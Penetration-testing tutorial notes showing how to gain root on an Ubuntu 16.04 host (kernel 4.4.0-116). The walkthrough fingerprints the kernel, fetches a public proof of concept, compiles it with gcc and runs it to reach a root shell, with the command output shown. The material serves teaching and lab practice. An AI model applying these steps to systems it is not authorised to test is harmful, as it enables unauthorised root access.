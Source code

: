 # Kernel Exploits

>Note: Kernel exploits can cause system instability so use caution when running these against a production system.


## Kernel Exploit Example
Let's start by checking the Kernel level and Linux OS version.

```bash 
Attacker@xxx[/xxx]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
Attacker@xxx[/xxx]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for linux 4.4.0-116-generic exploit comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using wget or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using chmod +x.
```bash
Attacker@xxx[/xxx]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.
```bash
Attacker@xxx[/xxx]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.
```bash
root@xxx[/xxx]# whoami

root
```


